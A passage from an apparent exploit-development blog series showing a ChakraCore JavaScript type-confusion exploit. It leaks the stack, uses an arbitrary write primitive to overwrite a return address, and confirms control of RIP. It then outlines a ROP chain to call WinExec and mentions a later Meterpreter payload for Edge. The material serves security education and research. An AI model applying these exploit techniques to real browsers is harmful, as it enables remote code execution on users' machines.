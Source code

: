 ```javascript
        if ((tempContents[0] == retAddr[0]) && (tempContents[1] == retAddr[1]))
        {
            // print update
            print("[+] Found the target return address on the stack!");

            // stackLeak+counter will now contain the stack address which contains the target return address
            // We want to use our arbitrary write primitive to overwrite this stack address with our own value
            print("[+] Target return address: 0x" + hex(stackLeak[0]+counter) + hex(stackLeak[1]));

            // Break out of the loop
            break;
        }

        // Increment the counter if we didn't find our target return address
        counter += 0x8;
    }

    // When execution reaches here, stackLeak+counter contains the stack address with the return address we want to overwrite
    write64(stackLeak[0]+counter, stackLeak[1], 0x41414141, 0x41414141);
}

main();
```

Let's run this updated script in the debugger directly, without any breakpoints.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion91.png" alt="">

After running our exploit, we can see we encounter an access violation! We can see a `ret` instruction is attempting to be executed, which is attempting to return execution to the `ret` address we have overwritten! This is likely a result of our `JsRun` function invoking a function or functions which eventually return execution to the `ret` address of our `JsRun` function which we overwrote. If we take a look at the stack, we can see the culprit of our access violation - ChakraCore is trying to return into the address `0x4141414141414141` - an address which we control! This means we have successfully controlled program execution and RIP!

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion92.png" alt="">

All there is now to do is write a ROP chain to the stack and overwrite RIP with our first ROP gadget, which will call `WinExec` to spawn `calc.exe`

Code Execution
---

With complete stack control via our arbitrary write primitive plus stack leak, and with control-flow hijacking available to us via a return address overwrite - we now have the ability to induce a ROP payload. This is, of course, due to the advent of DEP. Since we know where the stack is at, we can use our first ROP gadget in order to overwrite the return address we previously overwrote with `0x4141414141414141`. We can use the [rp++]() utility in order to parse the `.text` section of `chakracore.dll` for any useful ROP gadgets. Our goal (for this part of the blog series) will be to invoke `WinExec`. Note that this won't be possible in Microsoft Edge (which we will exploit in part three) due to the mitigation of no child processes in Edge. We will opt for a Meterpreter payload for our Edge exploit, which comes in the form of a reflective DLL to avoid spawning a new process. However, since CharkaCore doesn't have these constraints, let's parse `chakracore.dll` for ROP gadgets and then take a look at the `WinExec` prototype. 
